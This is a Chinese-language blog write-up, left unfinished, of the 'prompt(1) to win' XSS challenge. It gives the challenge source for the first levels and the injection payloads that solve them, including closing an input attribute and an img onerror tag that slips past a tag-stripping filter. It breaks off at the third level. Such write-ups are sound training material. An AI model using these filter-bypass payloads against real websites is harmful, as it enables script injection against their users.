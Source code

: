 ```yaml
---
layout: post
title: prompt(1)-to-win-Write-Up
date: 2017-07-28 
tags: XSS(未完成)  
---
```



## 介绍

### 关于站点

这个站点的灵感来自于[alert(1) to win](https://alf.nu/alert1)。在没有用户交互的情况下调用`prompt(1)`就算作成功。

### 0x00

第一题源码是这样的

	function escape(input) {
	    // warm up
	    // script should be executed without user interaction
	    return '<input type="text" value="' + input + '">';
	}        

![](/images/posts/xss/1.png)
此处的input就是你输入的所在位置。第一题源码很简单，先使用`1">`，句子成为`<input type="text" value="1"> ">`这样就使<input>闭合掉了。这时候就可以随心所欲的写入xss语句了。例如最常见的语句`<script>prompt(1)</script>`。拼合起来就是Payload：

`1"><script>prompt(1)</script>`

### 0x01

源码如下，这里用正则全局匹配过滤了`<xxx>`，那我们就构造`<xxx`不加上`>`。这种要求img标签可以实现，所以`<img src="#" onerror=prompt(1)`。但是现在处于`<article>`标签下，所以使用`//`注释符注释掉，这样img标签就不在article便签下，也就能正常工作了。

	function escape(input) {
	    // tags stripping mechanism from ExtJS library
	    // Ext.util.Format.stripTags
	    var stripTagsRE = /<\/?[^>]+>/gi;
	    input = input.replace(stripTagsRE, '');
	
	    return '<article>' + input + '</article>';
	}      
	
所以最后的Payload如下：
`<img src="#" onerror=prompt(1)//`

### 0x02

 源码源码源码～～～
 
	 function escape(input) {
	    //                      v-- frowny face
	    input = input.replace(/[=(]/g, '');
	
	    // ok seriously, disallows equal signs and open parenthesis
	    return input;
	}   
	
`=（`被过滤了，

转载请注明：[碎雪的小屋](http://RoyTse.github.io) » [0x00-X-Man夏令营](http://RoyTse.github.io/2017/07/prompt(1)-to-win-Write-Up/)  